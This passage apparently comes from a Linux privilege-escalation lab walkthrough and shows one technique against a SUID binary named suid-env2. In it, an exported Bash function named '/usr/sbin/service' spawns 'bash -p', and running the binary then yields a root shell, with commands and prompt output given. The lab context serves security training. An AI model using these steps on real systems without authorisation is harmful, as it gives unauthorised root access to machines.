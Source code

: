     This is free software; you are free to change and redistribute it.
    There is NO WARRANTY, to the extent permitted by law.
    ```

- Create a Bash function with the name "`/usr/sbin/service`" that executes a new Bash shell (using -p so permissions are preserved) and export the function:

    ```bash
    user@debian:~$ function /usr/sbin/service { /bin/bash -p; }
    user@debian:~$ export -f /usr/sbin/service
    ```

- Run the suid-env2 executable to gain a root shell:

    ```bash
    user@debian:~$ /usr/local/bin/suid-env2
    root@debian:~#
    ```